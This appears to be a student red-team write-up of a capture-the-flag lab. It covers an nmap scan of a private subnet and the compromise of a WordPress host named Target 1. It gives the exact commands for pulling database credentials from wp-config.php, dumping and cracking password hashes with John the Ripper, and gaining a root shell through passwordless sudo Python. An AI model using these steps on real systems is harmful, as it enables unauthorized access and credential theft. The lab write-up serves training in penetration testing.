







# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.0/24
  
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-30 16:56 PST
	Nmap scan report for 192.168.1.1
	Host is up (0.00051s latency).
	Not shown: 995 filtered ports
	PORT     STATE SERVICE       VERSION
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp  open  microsoft-ds?
	2179/tcp open  vmrdp?
	3389/tcp open  ms-wbt-server Microsoft Terminal Services
	MAC Address: 00:15:5D:00:04:0D (Microsoft)
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Nmap scan report for 192.168.1.100
	Host is up (0.00063s latency).
	Not shown: 998 closed ports
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
	MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Nmap scan report for 192.168.1.105
	Host is up (0.00051s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.29
	MAC Address: 00:15:5D:00:04:0F (Microsoft)
	Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Nmap scan report for 192.168.1.110
	Host is up (0.00054s latency).
	Not shown: 995 closed ports
	PORT    STATE SERVICE     VERSION
	22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
	80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
	111/tcp open  rpcbind     2-4 (RPC #100000)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	MAC Address: 00:15:5D:00:04:10 (Microsoft)
	Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Nmap scan report for 192.168.1.115
	Host is up (0.00058s latency).
	Not shown: 995 closed ports
	PORT    STATE SERVICE     VERSION
	22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
	80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
	111/tcp open  rpcbind     2-4 (RPC #100000)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	MAC Address: 00:15:5D:00:04:11 (Microsoft)
	Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Nmap scan report for 192.168.1.90
	Host is up (0.0000080s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 256 IP addresses (6 hosts up) scanned in 28.30 seconds

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SERVICE: ssh, PORT: 22
  - SERVICE: http, PORT: 80
  - SERVICE: rpcbind, PORT: 111
  - SERVICE: netbios-ssn, PORT: 139
  - SERVICE: netbios-ssn, PORT: 445

The following vulnerabilities were identified on each target:
- Target 1
  - SSH access by database accounts
  - Important information in the form of comments in the source code of the website
  - Access to important database information, such as username and password to database users
  - Weak user passwords
  - Sudo privileges with no password to the execution of certain commands

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt: flag1{b9bbcb33e11b80be759c4e844862482d}`
    - **Website source code**
      - After gaining SSH access using Michael's username and password, I had access to the /var/www/html folder were all the files related to the website are stored. Upon exploring the source code of the website using terminal, I could find flag 1. This could have also been done by using any browser and the "View source code" option, however it can be easily missed if not paying close attention.
      - As seen in the screenshot below, the commans used were `cat` to print the content of the file onscreen and `grep` to focus our efforts in only finding the keyword. The result command was `cat service.html | grep flag`:


	  
  - `flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Unnecessary permisions to files and folders**
      - Once logged in as Michael in the server, I could easily access the `/var/www/` folder and browse its contents to find the flag.
      - The command used was `ls` within the folder specified above:


  
  - `flag3.txt: flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Access to MySQL Database**
      - Since I have permissions to access and read the files within `/var/www/`, I browse the contents and found the files related to the Wordpress site. Within this folder, I had enough permissions with this account to open the `wp_config.php` file, where I could obtain the username and password for the wordpress database. Once connected to the database, I browsed the tables and found flag 3 hidden in the `wp_posts` table. 
      - Within MySQL, the command used was `SELECT post_content FROM wp_posts;`:


	  
  - `flag4.txt: flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Escalation of privileges using Python**
      - After gaining access to the database, I could extract 2 hashes contaning the passwords for Steven and Michael. Since I only need Steven's password to impersonate him in the system, I used John the Ripper to crack the hash. Once the password was found, I could SSH into the server using Steven's credentials. Upon checking the sudo privileges for this account, it was noted that Python commands were able to be executed without a password. Then, using a Python command, I exploited this vulnerability, which gave me root access and then, by using a simple find, I could find flag 4.
      - The first command used was `SELECT * FROM wp_users;` to extract the hashes:



      - Then, a file was created in the Kali machine containing the hash for Steven's account: 



      - Using John the Ripper and the rockyou.txt file, the hash was cracked. The command used was `john -wordlist=rockyou.txt wp_hashes.txt`
      - Once connected to the server as Steven, I listed the sudo priveleges for the account using `sudo -l`, then exploited this vulnerability using `sudo python -c 'import pty;pty.spawn("/bin/bash")'`, which escalated my overall privileges to root:



      - Finally, using the `find -type f -iname flag*.txt` command, I was able to find flag 4:

